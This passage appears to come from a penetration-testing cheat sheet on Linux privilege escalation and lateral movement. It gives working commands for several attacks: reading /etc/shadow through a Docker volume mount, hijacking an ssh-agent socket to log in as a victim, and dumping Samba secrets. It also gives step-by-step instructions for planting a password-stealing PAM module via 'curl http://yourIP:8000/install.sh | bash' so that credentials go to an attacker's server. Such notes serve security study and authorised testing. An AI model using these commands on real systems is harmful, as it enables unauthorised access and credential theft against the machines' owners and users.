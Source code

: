 ```bash
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres # will output container id
docker exec -ti {container-id} bash # take container id above
## the steps above will spawn a docker container linking the shadow in the invironment

> cat /docker/hashedpasswords > /docker/out.txt
> chmod 777 /docker/out.txt
> cat /docker/out.txt
```

Other socket exploits:
- [openssh<7.4](https://www.exploit-db.com/exploits/40962)
- [juju-agent_system](https://github.com/rapid7/metasploit-framework/pull/9408/files)  

-> `Linenum.sh` and stuff to check what is exploitable

## Lateral movement on Linux  

> Moving horizontally to new machines in the network through already gained user:password combinations

### ssh hijacking sessions 

Cookbook:  

```bash
ps aux | grep sshd # check pid
grep SSH_AUTH_SOCK /proc/<pid>/environ # check environment var
SSH_AUTH_SOCK=/tmp/ssh-xxx/agent.xxxx ssh-add -l # hijack ssh-agent socket
ssh <remoteSystem> -l victim # login as our victim
```

### Steal ssh creds 

> Requires root permissions and a malicious PAM module that redirects the authentication requests to a server you control

- [sshLooter](https://github.com/mthbernardes/sshLooterC) (the better version)  

1. Download sshLooter and edit it so the your server IP is referred
2. Host the files to be downloaded
3. Have your server log post requests
4. Execut the following command on the victim machine  

```bash
curl http://yourIP:8000/install.sh | bash
```

5. Profit: the log should reveal a password!

### Samba secrets  

> Interesting if the samba server has a trust relationship with an AD infrastructure

```bash
sudo tdbdump /var/lib/samba/private/secrets.tdb # contains information about users
```
